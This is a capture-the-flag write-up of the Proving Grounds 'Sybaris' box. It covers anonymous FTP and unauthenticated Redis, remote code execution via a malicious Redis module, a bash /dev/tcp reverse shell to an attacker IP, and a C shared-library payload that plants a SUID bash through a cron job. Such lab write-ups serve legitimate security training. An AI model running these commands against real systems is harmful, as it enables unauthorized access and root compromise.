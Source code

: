 ```yaml
---
layout: writeup
title: Sybaris - Proving Grounds
date: 2024-07-15 13:32:20 +0300
description: A Writeup of the Sybaris Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, Redis]
---
```


Here's a writeup for Sybaris, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Hard. I get started with an nmap scan to reveal:

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

I check out port 80 by entering it into the web browser and begin a directory scan in the background: 

![Sybaris1.png](/assets/images/Sybaris/Sybaris1.png){: .center-aligned width="600px"}

Seems like a basic blog run over the `HTMLy` platform. It doesn't really look like there's anything here, and the directory scan reveals a `/login` page but not much else. Entering any credentials to the admin page seems to take us to `http://$IP/login/login`. I also find nothing for HTMLy exploits. 

I move on temporarily from the web server and check out port 21. It looks like we are able to login with `anonymous:anonymous` credentials, and we see a directory called `pub`, but it's empty, and we can't upload anything to it. It actually hangs trying to `cd` into it, but when we `ls pub` we get nothing. 

That leaves port 6379, a redis server. Fortunately we got a little experience with redis through the [Readys](link) box. We can access it without authentication using `redis-cli -H $IP`, but there's not much interesting when we check the info, and it looks like the db is empty when we use `pyredis-dump.py`. Hm. I do a little research to see what other information could be viewed, but I don't see anything that stands out even when I view the full configs (`CONFIG GET *`) or check for keys or hashes (`KEYS *`, `HKEYS *`). 

So it's time to start looking for exploits at this point. I give [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) a shot even though the redis version is 5.0.9 (rather than 5.0.5 and before) but no luck. I tried writing a [PHP webshell](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#php-webshell) and , [creating an SSH key](https://github.com/iw00tr00t/Redis-Server-Exploit),  but I couldn't write against a read-only replica. I assumed this precluded some of the other suggestions, but I was mistaken. It turns out the actual answer is to [load a malicious redis module](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module)to perform RCE. Now hacktricks links to [this github page](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) so you can clone the repo and compile it using `sudo make`, but please note that **this will not work** on ARM devices such as MacOS. A discord user suggested using the pre-compiled module from  the redis-rogue-server exploit linked above. 

*I had to look into hints for this because apparently there was an issue with my connection.*

When I tried to upload a test file into the FTP server early on, I was unable to, and crucially, the FTP hung when I tried to `cd pub`. It actually hung another time as well. I assumed we could not access this directory, but after reading a writeup, I was incorrect, so I tried again. This time it worked. I'm ot sure why it worked sometimes and not others, maybe I was wearing it out with a directory scan or something, but regardless, we need to `put` the compiled module /`redis-rogue-server/exp.so` into pub, the full PATH of which is `/var/ftp/pub/exp.so`. From there we use `MODULE LOAD /var/ftp/pub/exp.so`, which allows us to use `system.exec` to execute commands as so:

![Sybaris2.png](/assets/images/Sybaris/Sybaris2.png){: .center-aligned width="600px"}

After that I tried uploading a reverse shell which I got to download from my server but didn't execute, so I just ran a simple `system.exec "/bin/bash -i >& /dev/tcp/192.168.45.183/6379 0>&1"` from the redis-cli, and I was able to catch the shell with a penelope listener as pablo. 

![Sybaris3.png](/assets/images/Sybaris/Sybaris3.png){: .center-aligned width="600px"}

I start enumerating from there and check out lse.sh. First things first:

![Sybaris4.png](/assets/images/Sybaris/Sybaris4.png){: .center-aligned width="600px"}

It's empty. Thanks for nothing lse.

![Sybaris5.png](/assets/images/Sybaris/Sybaris5.png){: .center-aligned width="600px"}

Here we go. Cron-job and a writable path. If we try to run the binary, we see there is a missing object file. We can create it, and it will be run with the log-sweeper binary. 

![Sybaris6.png](/assets/images/Sybaris/Sybaris6.png){: .center-aligned width="600px"}

We create a c file on our kali machine:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

And transfer it to our target machine in the `/usr/local/lib/dev` folder. Then we run gcc on it: `gcc -shared -fPIC -nostartfiles -o utils utils.so`. This file will move a copy of `bash` to `/tmp` and add the SUID bit. That means when it runs, there should be a copy of bash in /tmp, and we can run `/tmp/bash -p` and get root. And it does and we do. 

![Sybaris7.png](/assets/images/Sybaris/Sybaris7.png){: .center-aligned width="600px"}
